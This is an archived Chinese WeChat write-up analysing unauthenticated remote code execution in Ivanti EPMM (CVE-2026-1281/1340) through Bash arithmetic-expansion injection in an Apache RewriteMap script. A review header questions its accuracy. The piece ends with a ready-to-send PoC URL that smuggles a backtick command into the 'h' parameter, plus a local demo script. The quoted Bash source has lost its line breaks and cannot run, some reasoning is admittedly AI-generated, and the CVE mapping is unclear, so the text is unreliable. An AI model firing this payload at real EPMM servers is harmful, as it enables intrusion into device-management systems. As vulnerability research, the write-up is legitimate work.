







#  Ivanti EPMM RCE CVE-2026-1340/1281完整分析  

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Ivanti EPMM
- 本文讨论：CVE-2026-1281；CVE-2026-1340
- 版本、权限与配置前提：未认证Bash RewriteMap参数算术求值；无测试固件/完整影响版本
- 资料类型：双漏洞补丁逆向；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 元数据只有1340，两脚本与CVE对应关系未分清
- 所有Bash源码/配置/演示丢换行，有functionlog/fiif等不可执行内容
- 算术注入演示把反引号放双引号赋值中，命令在赋值阶段即运行，无法单独证明比较阶段漏洞
- 无原始公告或补丁包来源，仅靶场广告；理论与AI生成推导须源码/运行证据验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 两个CVE映射、脚本差异/实验版本、真实算术求值链待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

原创 棉花糖糖糖
                    棉花糖糖糖  棉花糖fans   2026-02-02 09:18  
  
  
  
  
## 前言：  
  
文中技术分析仅供交流讨论，poc仅供合法测试，用于企业自查，切勿用于非法测试，未授权测试造成后果由使用者承担，与本公众号以及棉花糖无关。  
## 介绍：  
  
近日,Ivanti公司披露了Ivanti Endpoint Manager Mobile (EPMM)中存在的代码注入漏洞(**CVE-2026-1281**  
和**CVE-2026-1340**  
)，并确认**已存在在野利用**  
。该漏洞源于 Apache HTTPd 调用的 Bash 脚本在处理时间戳比较时，未能有效过滤恶意参数，导致攻击者可利用 Bash 算术扩展特性注入系统命令。  
## 分析：  
  
首先拿到补丁包  
  
  
  
RPM的包那就好办了，直接查看它执行了什么即可，使用命令：  
```
rpm -qp --scripts ivanti-security-update-1761642-1.0.0L-5.noarch.rpm
```  
  
  
  
emmm内容有点多，不过根据已知条件，该漏洞源于 Apache HTTPd ，补丁包里面很容易看到关键的修改Apache HTTPd配置的命令：  
```
/bin/sed -i \  -e 's|RewriteMap mapAppStoreURL prg:/mi/bin/map-appstore-url|RewriteMap mapAppStoreURL "prg:/bin/java -cp /mi/bin AppStoreUrlMapper"|g' \  -e 's|RewriteMap mapAftStoreURL prg:/mi/bin/map-aft-store-url|RewriteMap mapAftStoreURL "prg:/bin/java -cp /mi/bin AFTUrlMapper"|g' \  /etc/httpd/conf.d/ssl.conf
```  
  
就是说把map-appstore-url  
和map-aft-store-url  
给换掉了不用是吧，ok我们去看看这俩脚本是什么，目录已经给了在mi/bin下，我们直接进终端查一下  
  
  
  
map-appstore-url和map-aft-store-url是个bash脚本，cat就可以直接看内容(另一个脚本内容差不太多，就不展示了)。  
```
#!/bin/bashset -o nounsetdeclare -x MI_DATE_COMMAND="date +%Y-%m-%d--%H-%M-%S"declare -x MI_DATE_FORMAT="%Y-%m-%d--%H-%M-%S"declare -r kScriptName=$(basename $0)declare -r kScriptDirectory=$(dirname $0)declare -r kLogFile="/var/log/${kScriptName}.log"declare -r kSaltFile="/mi/files/appstore-salt.txt"declare -r kScriptStartTimeSeconds=$(date +%s)declare -r kValidTimeStampLength=${#kScriptStartTimeSeconds}declare -r kAftFileStoreDirectory='/mi/files/aftstore'# error codes that are used in /etc/httpd/conf.d/ssl.confdeclare -r kPathTraversalAttemptedErrorCode="c91bbeec40aff3fd3fe0c08044c1165a"declare -r kLinkHashMismatchErrorCode="44b2ff3cf69c5112061aad51e0f7d772"declare -r kTooLateErrorCode="c6a0e7ca11208b4f11d04a7ee8151a46"declare -r kTooEarlyErrorCode="80862895184bfa4d00b24d4fbb3d942f"declare -r kKeyIndexOutOfBoundsErrorCode="f74c27fce7d8e2fecd10ab54eda6bd85"declare -r kURLStructureInvalidErrorCode="b702087a848177d489a6891bd7869495"declare -r kTimestampLengthInvalidErrorCode="2ecad569fdaa07e2b66ed2595cf7240f"declare -r kLinkSpoofErrorCode="cbfa488e9b08d4c5d7b3b2084ffb18e7"declare -r kLinkUsingOddTraversalErrorCode="f489b91db387b684f56c07e7f5e4308b"gShouldLogToFile="false"gSaltFileModificationTime="0"gTestMode="false"gErrorCode=0gErrorMessage=""declare -a gSaltArray=( )gCurrentSalt=""gHostname=""gPath=""gStartTime=""gEndTime=""if (( $# > 0 )) ; then  gTestMode="true"fi#echo "gTestMode=${gTestMode}"# informationfunctionlog() {if${gTestMode} ; then    echo"`$MI_DATE_COMMAND` -- ${kScriptName} -- ${1}: ${@:2}"else    # do not log since it kills performance    echo"$($MI_DATE_COMMAND) -- ${kScriptName} -- ${1}: ${@:2}" >> ${kLogFile}fi}functionlogDebug() {if${gTestMode} ; then    echo"`$MI_DATE_COMMAND` -- ${kScriptName} -- ${1}: ${@:2}"else    # do not log since it kills performance    ${gShouldLogToFile} && echo"$($MI_DATE_COMMAND) -- ${kScriptName} -- ${1}: ${@:2}" >> ${kLogFile}fi}# errorCode# informationfunctionlogDenial() {local theCurrentDate="$(MI_DATE_COMMAND)"if${gTestMode} ; then    echo"$theCurrentDate -- ${kScriptName} -- ${1}: denying: errorCode=${2}: ${@:3}"else    #echo "$theCurrentDate -- ${kScriptName} -- ${1}: denying: errorCode=${2}: ${@:3}" >> "${kLogFile}"    logger -t "${kScriptName}" -i -p local0.warning "$theCurrentDate -- ${1}: denying: errorCode=${2}: ${@:3}"fi}log"MAIN""starting"functiondumpSaltArray() {log"${FUNCNAME}""entered"for theSalt in"${gSaltArray[@]}" ; do    log"${FUNCNAME}""theSalt=$theSalt"done}log"MAIN""after dumpSaltArray declaration"functionreadSaltFile() {if [[ -f "${kSaltFile}" ]] ; then    theCurrentSaltModificationTime=$(stat -c %Y "${kSaltFile}")    logDebug "${FUNCNAME}""theCurrentSaltModificationTime=${theCurrentSaltModificationTime}"    theDeltaTime=$(($theCurrentSaltModificationTime - $gSaltFileModificationTime))    logDebug "${FUNCNAME}""theDeltaTime=${theDeltaTime}"    if [[ "${theDeltaTime}" -ne 0 ]] ; then      log"${FUNCNAME}""theDeltaTime=${theDeltaTime} not zero; loading salt from kSaltFile=${kSaltFile}"      gSaltArray=( $(cat ${kSaltFile}))      gSaltArray[0]=""      gSaltFileModificationTime=$theCurrentSaltModificationTime    fielse    log"${FUNCNAME}""kSaltFile=${kSaltFile} not found"fi}log"MAIN""after readSaltFile declaration"#readSaltFile#dumpSaltArray#readSaltFilefunctionlookupSaltByIndex() {#echo "$1 ${#gSaltArray[*]}"if [ "$1" -lt ${#gSaltArray[*]} ] ; then    gCurrentSalt=${gSaltArray[$1]}else    gCurrentSalt=""fi  logDebug "${FUNCNAME}""theKeyIndex=$1; gCurrentSalt=$gCurrentSalt"}log"MAIN""after lookupSaltByIndex declaration"functionverifyURLConsistency () {  logDebug "${FUNCNAME}""${1}"local ret=""# this is what we eventually echo and it's the name of a file for httpd to send to the client or a pattern that Rewrite is aware of and kill the connection with the right HTTP error code#theAppStoreString=${1%%:*}#echo "${theAppStoreString}"#declare  theOldIFS="${IFS}"local theArgumentArray# process what httpd gave us in $1 splitting on the _  IFS="_" && theArgumentArray=(${1})  theAftStoreString=${theArgumentArray[0]}  theAftStoreAssetGUIDWithExtension=${theArgumentArray[1]}  gHostname=${theArgumentArray[2]}  theURLString=${theArgumentArray[3]}#echo "${theAftStoreString}"# process what mifs really gave us in $1 splitting on the ,  IFS="," && theAftStoreKeyValueArray=(${theAftStoreString})  IFS="${theOldIFS}"if (( ${#theArgumentArray[@]} != 4 )) ; then    ret="${kURLStructureInvalidErrorCode}"    log"${FUNCNAME}""${ret}""expecting 5 segments; actual=${#theArgumentArray[@]}"fiif [[ -z ${ret} ]] ; then    for theKeyMapEntry in"${theAftStoreKeyValueArray[@]}" ; do      theKey="${theKeyMapEntry%%=*}"      theValue="${theKeyMapEntry##*=}"      logDebug "${FUNCNAME}""theKey=$theKey; theValue=$theValue"      case${theKey}in        kid)          gKeyIndex="${theValue}"          ;;        st)          gStartTime="${theValue}"          if (( ${#gStartTime} != "${kValidTimeStampLength}" )) ; then            ret="${kTimestampLengthInvalidErrorCode}"          fi          ;;        et)          gEndTime="${theValue}"          if (( ${#gEndTime} != "${kValidTimeStampLength}" )) ; then            ret="${kTimestampLengthInvalidErrorCode}"          fi          ;;        h)          gHashPrefixString="${theValue}"          ;;        *)          ret="${kURLStructureInvalidErrorCode}"          logDenial "${FUNCNAME}""${ret}""unknown presented key=${theKey}; theValue=${theValue}"          ;;      esac    donefiif [[ -z ${ret} ]] ; then    lookupSaltByIndex ${gKeyIndex}    if [[ -n "${gCurrentSalt}" ]] ; then      logDebug "${FUNCNAME}""continuing: gCurrentSalt=$gCurrentSalt"      theCurrentTimeSeconds=$(date +%s)      logDebug "${FUNCNAME}""theCurrentTimeSeconds=${theCurrentTimeSeconds}"      #theCurrentTimeSeconds=1336011206      #theCurrentTimeSeconds=1336770818      #gHostname="cot-0000001.mobileiron.com"      #gHostname="qa42.mobileiron.com"      if [[ ${theCurrentTimeSeconds} -gt ${gStartTime} ]] ; then        logDebug "${FUNCNAME}""continuing: not too early"        if [[ ${theCurrentTimeSeconds} -lt ${gEndTime} ]] ; then          logDebug "${FUNCNAME}""continuing: not too late"          # calculate the path          gPath=${theURLString/\/sha256:${theAftStoreString}/}          theStringToHash="${gCurrentSalt}${gHostname}${gPath}${gStartTime}${gEndTime}"          theAssetFile="${theAftStoreAssetGUIDWithExtension}"          # the string to hash must end with the assetfile start end          logDebug "${FUNCNAME}""theStringToHash=${theStringToHash}"          if [[ "${theStringToHash}" = *"${theAssetFile}${gStartTime}${gEndTime}" ]] ; then            theSHA256Hash=$(echo -n "${theStringToHash}" | sha256sum)            theSHA256Prefix=${theSHA256Hash:0:64}            # theSHA256Prefix=${theSHA256Hash}            logDebug "${FUNCNAME}""theSHA256Hash=$theSHA256Hash; theSHA256Prefix=$theSHA256Prefix"shopt -s nocasematch            if [[ "${theSHA256Prefix}" = "${gHashPrefixString}" ]] ; then              logDebug "${FUNCNAME}""hash matched"              if [[ "${theAssetFile}" = *..* ]] || [[ "${theAssetFile}" = .* ]] || [[ "${theAssetFile}" = /* ]]; then                ret="${kPathTraversalAttemptedErrorCode}"                logDenial "${FUNCNAME}""${ret}""getting spoofed: ${theAssetFile}"              else                ret="${kAftFileStoreDirectory}"/"${theAftStoreAssetGUIDWithExtension}"              fi            else              ret="${kLinkHashMismatchErrorCode}"              logDenial "${FUNCNAME}""${ret}""link hash mismatch: theSHA256Prefix=$theSHA256Prefix; gHashPrefixString=${gHashPrefixString}; ${1}"            fi          else            ret="${kLinkSpoofErrorCode}"            logDenial "${FUNCNAME}""${ret}""link being spoofed: theStringToHash=${theStringToHash}; requiredSuffix=${theAppStoreSubDirectory}/${theAppStoreAssetGUID}${theAppStoreAssetExtension}${gStartTime}${gEndTime}; ${1}"          fishopt -u nocasematch        else          ret="${kTooLateErrorCode}"          logDenial "${FUNCNAME}""${ret}""link too late: theCurrentTimeSeconds=${theCurrentTimeSeconds}; ${1}"        fi      else        ret="${kTooEarlyErrorCode}"        logDenial "${FUNCNAME}""${ret}""link too early: theCurrentTimeSeconds=${theCurrentTimeSeconds}; ${1}"      fi    else      ret="${kKeyIndexOutOfBoundsErrorCode}"      logDenial "${FUNCNAME}""${ret}""key index out of bounds: ${1}"    fielse    ret="${kURLStructureInvalidErrorCode}"    logDenial "${FUNCNAME}""${ret}""URL not structurally correct: ${1}"fi# tell httpd what file to send (or error message)echo"${ret}"}if${gTestMode} ; then  readSaltFile  verifyURLConsistency "${1}"else  logDebug "MAIN" looping  readSaltFilewhileread theCurrentLine; do    readSaltFile    logDebug "MAIN""${theCurrentLine}"    verifyURLConsistency "${theCurrentLine}"donefi
```  
  
但内容太多了，我们还是请AI老师帮我们统一分析一下  
  
  
  
AI老师帮我们分析并得到了一个传参请求，然后我们还得去apache的配置文件看看入口路径是什么，在/etc/httpd/conf.d/ssl.conf文件中找找相关的内容,由于配置文件内容太多了这里就不贴了，我也懒得找，还是让AI老师帮我们找找吧。  
  
  
  
deepseek老师还是太善解人意了，直接给了一个标准请求：  
```
/mifs/c/appstore/fob/3/1120/sha256:kid=1,st=1666663066,et=1666670266,h=a1b2c3d4e5f6a1b2c3d4e5f6a1b2c3d4e5f6a1b2c3d4e5f6a1b2c3d4e5f6a1b2/75dc90fe-6ae7-4377-913b-7248334d39dc.ipa
```  
  
但这些传参到bash中，并没有找到明显的直接命令执行的点，这时我们需要再理解一下bash脚本，首先看bash脚本中的开头：  
```
gKeyIndex=""gStartTime=""gEndTime=""gHashPrefixString=""gPath=""IFS=',' read -ra theAppStoreKeyValueArray
```  
  
脚本会用 IFS=','  
 把传入的参数分割成数组 theAppStoreKeyValueArray  
，传参后是这样的数组：  
```
["kid=1", "st=1444444444", "et=1444444444", "h=a1b2c3d4e5f6a1b2c3d4e5f6a1b2c3d4e5f6a1b2c3d4e5f6a1b2c3d4e5f6a1b2"]
```  
  
然后在下方有这样的一段循环：  
```
  if [[ -z ${ret} ]] ; then    for theKeyMapEntry in "${theAftStoreKeyValueArray[@]}" ; do      theKey="${theKeyMapEntry%%=*}"      theValue="${theKeyMapEntry##*=}"
```  
  
它把传参的这些参数名和值循环赋值给了theKey和theValue，然后又被赋值到全局变量gKeyIndex、gStartTime、gEndTime、gHashPrefixString中，继续跟下去，看看这些值在哪里用到。  
  
key参数赋值到了变量gKeyIndex，最终在这里应用：  
```
kAppStoreSaltFile="/mi/files/appstore-salt.txt"gSalt=""if [[ -f ${kAppStoreSaltFile} ]]; then  gSalt=$(sed -n "${gKeyIndex}p""${kAppStoreSaltFile}")if [[ -z ${gSalt} ]]; then    ret="${kSaltIndexInvalidErrorCode}"    logDenial "${FUNCNAME}""${ret}""kid(${gKeyIndex}) is invalid (no salt found)"fielse  ret="${kSaltFileMissingErrorCode}"  logDenial "${FUNCNAME}""${ret}""Salt file ${kAppStoreSaltFile} not found"fi
```  
  
它是用来读取/mi/files/appstore-salt.txt对应行的，这个文件里面的hash值读取出来用来校验后续参数。  
  
st 参数最终赋值给了gStartTime，分别在两个地方被调用：  
```
kValidTimeStampLength=10 case ${theKey} in  st)    gStartTime="${theValue}"    if (( ${#gStartTime} != "${kValidTimeStampLength}" )); then      ret="${kTimestampLengthInvalidErrorCode}"    fi    ;;
```  
  
这里判断了这个参数是否长度为10。  
```
theCurrentTimeSeconds=$(date +%s)if [[ ${theCurrentTimeSeconds} -gt ${gStartTime} ]]; then  logDebug "${FUNCNAME}" "Current time(${theCurrentTimeSeconds}) > start time(${gStartTime})"  # ... else  ret="${kRequestExpiredErrorCode}"  logDenial "${FUNCNAME}" "${ret}" "Start time(${gStartTime}) is in the future"fi
```  
  
这里用来比较当前时间是否晚于请求开始时间。  
  
et 参数（gEndTime）和gStartTime的用处差不多，也校验了长度和用于验证当前时间≤结束时间。  
  
h 参数（gHashPrefixString）是用于hash校验的值。  
  
看上去还是没有直观的命令执行的代码，别急，我们再引入一个知识点。  
  
首先给大家看一个脚本：  
```
#!/bin/basharr="" var="arr[`echo 'hacked' > ./hack_mht`0]"[[ 1 -gt $var ]] if [[ -f ./hack_mht ]]; then    echo "执行成功！"else    echo "未执行"fi
```  
  
bro们觉得这个脚本能成功执行命令吗？  
  
答案：  
  
  
  
为什么会这样捏，因为在bash中，数值比较功能可以解析array[index]这样的数值索引，index会被优先解析为算数表达式，比如array[1+1]，会先计算1+1，而bash又有一个命令替换的优先级规则，如果你把array[1+1]改为  
```
array[`echo 111`]
```  
  
则先执行被反引号包裹的命令，举例：  
```
current_date=`date`echo "今天是: $current_date"echo "当前目录: `pwd`"
```  
  
显然在if [[   
  
{gStartTime} ]]; 和if [[   
  
{gEndTime} ]] ; 中都存在这个条件，但我们之前说了，gStartTime和gEndTime都做了长度校验的，必须为十位，这就很鸡肋了，那怎么样才能绕过这个问题呢？  
  
回到最开始的定义变量与循环：  
```
  if [[ -z ${ret} ]] ; then    for theKeyMapEntry in "${theAftStoreKeyValueArray[@]}" ; do      theKey="${theKeyMapEntry%%=*}"      theValue="${theKeyMapEntry##*=}"
```  
  
bash中使用theKey和theValue循环赋值，传参的最后一个值为h，所以theValue最后的值是就是h的值，那现在就很有意思了，gStartTime和gEndTime都有长度限制，但h的值没有，能不能让h的值走到if [[   
  
{gStartTime} ]]; then里面去应用数值索引+命令替换呢？  
  
可以的，既然在bash中有变量theValue=h传参，那我们就直接让gStartTime=theValue，最终流程：可控h参数->theValue->gStartTime，然后进入if [[   
  
{gStartTime} ]];应用数值索引+命令替换，现在我们已经有了RCE的完整链条，开始构造最终poc。  
  
kid参数为文件行数，随便用个1，st参数为theValue，注意十位长度校验，所以还需要再加两个空格，et参数也参与比较，也可作为theValue传参，st与et随便一个地方设置为theValue都可以，最后是h参数，只需要满足array[index]即可。  
  
index部分的内容有了，array部分写什么呢，bash开头开启了set -o nounset，这是严格模式，严格模式下，Bash 遇到未定义的变量会直接终止脚本执行，直接从bash开头定义的那些空变量里面选一个，比如gPath和gHostname都可以，构造最终值：  
```
gHostname[`id > /mi/bin/mht`]
```  
  
最终poc：  
```
/mifs/c/appstore/fob/3/1120/sha256:kid=1,st=1111111111,et=theValue%20%20,h=gHostname%5B%60id%20>%20/mi/bin/mht%60%5D/mht.ipa
```  
  
  
  
该漏洞复现环境已在无境中上架：vip.bdziyi.com/ulab，无境，英文名Unbounded Lab，是专为网络安全学习者打造的综合性实战平台，提供真实企业级漏洞环境，让您在安全的环境中提升实战技能，核心特色：独立隔离环境，每位用户都拥有**完全独立**  
的靶场环境，即使是庞大的内网靶场，环境之间也是**零干扰**  
，确保您的学习过程不受任何影响。  
  
## 广告时间：  
  
[棉花糖会员站介绍(25年11月15日版本) 新增在线独立环境内网靶场](https://mp.weixin.qq.com/s?__biz=MzkyOTQzNjIwNw==&mid=2247492813&idx=1&sn=0bb0698488bfc8a03b1ed0983be803fd&scene=21#wechat_redirect)  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
